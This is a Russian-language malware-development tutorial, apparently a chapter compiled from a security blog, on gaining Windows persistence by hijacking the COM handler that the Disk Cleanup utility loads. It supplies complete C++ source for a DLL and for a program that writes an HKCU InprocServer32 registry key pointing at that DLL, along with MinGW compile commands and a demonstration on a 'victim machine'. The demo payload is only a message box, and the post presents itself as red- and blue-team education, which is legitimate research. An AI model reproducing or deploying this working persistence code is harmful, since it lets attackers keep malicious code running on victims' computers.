


\newpage
\subsection{85. разработка вредоносного ПО: закрепление (persistence) - часть 19. Утилита очистки диска. Простой пример на C++.}

﷽

{width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник персистентности вредоносного ПО: через утилиту очистки диска.     

### утилита очистки диска

Если у вас когда-либо возникали проблемы с нехваткой места на жестком диске, вы наверняка знакомы с утилитой очистки диска:    

{width="80%"}    

Хорошие новости для red team: список *"Файлы для удаления"*, отображаемый в пользовательском интерфейсе, не является случайным. Просто выполните команду:    

```powershell
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches" /s
```

{width="80%"}    

{width="80%"}    

Как видно, здесь даже есть значения ключей реестра по умолчанию.    

Кроме того, если у нас есть `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches\default=<CLSID>`, можно найти еще одно значение ключа реестра: `HKCR\CLSID\<CLSID>\InProcServer32 = <DLLPATH>`:       

{width="80%"}    

{width="80%"}    

> В демонстрационных целях здесь я показываю пример реестра из HKEY_CLASSES_ROOT, так как HKEY_CURRENT_USER пуст

Это наводит на мысль, что мы можем использовать [COM DLL hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html) для персистентности. Давайте попробуем.    

### практический пример

Прежде всего, как обычно, создаем "вредоносную" DLL (`hack.cpp`):      

```cpp
/*
hack.cpp
simple DLL
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD nReason, 
LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Как обычно, для простоты, это просто `meow-meow` messagebox.

И затем создаем скрипт для закрепления (`pers.cpp`):

```cpp
/*
pers.cpp
windows persistence via Disk Cleaner
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "Software\\Classes\\CLSID\\{8369AB20-56C9-11D0-94E8-00AA0059CE02}
  \\InprocServer32";

  // malicious DLL
  const char* dll = "Z:\\2022-11-16-malware-pers-19\\hack.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)sk, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey value :(\n");
    return -1;
  }
  return 0;
}
```

В качестве CLSID я выбрал `8369AB20-56C9-11D0-94E8-00AA0059CE02`. Как можно видеть, код похож на [COM hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html). Различие только в значениях переменных.   

### демонстрация

Давайте скомпилируем нашу "вредоносную" DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.cpp
```

{width="80%"}    

И скрипт персистентности:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Копируем на машину жертвы. В моем случае `Windows 10 x64`. Запускаем:     

```powershell
reg query "HKCU\Software\Classes\CLSID\{8369AB20-56C9-11D0-94E8-00AA0059CE02}" /s
.\pers.exe
```

{width="80%"}    

{width="80%"}    

Как можно видеть, все сработало идеально! =^..^=     

Но для персистентности требуется, чтобы пользователь запустил утилиту очистки диска. Здесь можно использовать [один из классических трюков](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) для персистентности. Добавление утилиты очистки диска в автозапуск может быть не лучшей идеей, так как у нее есть GUI. Я попробовал использовать аргументы командной строки этой программы:     

```powershell
cleanmgr.exe
cleanmgr.exe /cleanup
cleanmgr.exe /autoclean
cleanmgr.exe /setup
```

Но неудачно :(. Однако сама утилита работала корректно:       

{width="80%"}    

Думаю, я вернусь к этому вопросу в одном из будущих постов.       

Кроме того, согласно документации Microsoft, можно добавлять новые записи в `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches`.      

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[MSDN Registering Disk Cleanup Handler](https://learn.microsoft.com/en-us/windows/win32/lwef/disk-cleanup?redirectedfrom=MSDN#registration)        
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[Malware persistence: part 3](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-11-16-malware-pers-19)     
